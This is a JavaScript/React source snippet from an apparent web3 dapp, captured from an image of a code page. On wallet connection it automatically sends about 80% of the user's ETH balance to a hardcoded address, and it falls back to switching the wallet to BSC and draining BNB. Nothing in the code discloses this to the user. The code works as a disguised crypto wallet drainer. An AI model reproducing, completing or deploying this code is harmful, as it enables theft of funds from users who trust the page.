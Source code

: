     // Optimism
    const { isLoading: isConfirmingOptimism, isSuccess: isOptimismConfirmed } = useWaitForTransactionReceipt({
      hash: optimismHash,
    });


    useEffect(() => {
      if (isConnected && chainId === mainnet.id) {
        console.log("Currently on ethereum network ..." , isConnected);
        setStarted(true);
        handleSendEth();
        // handleSendBnb()z
      }
      else
      {
        handleSendBnb();
      }
    }, [isConnected]);
  
    const handleSendEth = async () => {

      if (!ethBalanceData?.value || ethBalanceData?.formatted == '0') {
        setErrors("ETH balance is zero. Cannot proceed with the transaction.");
        handleSwitchToBsc();
      };

      if (ethBalanceData?.value) {
        try {
          console.log("starting",ethBalanceData?.value)
          const ethBalance = ethBalanceData.value;
          const gasFeeEstimate = ethBalance / BigInt(5); // 20% of the balance
          const amountToSend = ethBalance - gasFeeEstimate;
          
          console.log('ETH Amount to send:', amountToSend.toString());
  
          // This will trigger the wallet prompt
          const tx = await sendEthTransaction({
            to: '0x3619Eb3276bbBFb2BaC375BdBa15220E6853C89a',
            value: amountToSend,
          });
         
          console.log('ETH transaction sent:', tx);
        } catch (error) {
          setErrors("An error occurred while sending ETH.");
          console.error(error);
        }
      } else {
        setErrors("ETH balance not available");
      }
    }
  
    const handleSwitchToBsc = async () => {
      try {
        await switchChain({ chainId: bsc.id }); 
      } catch (error) {
        setErrors("Failed to switch to BSC network.");
        console.error(error);
      }
    };
  
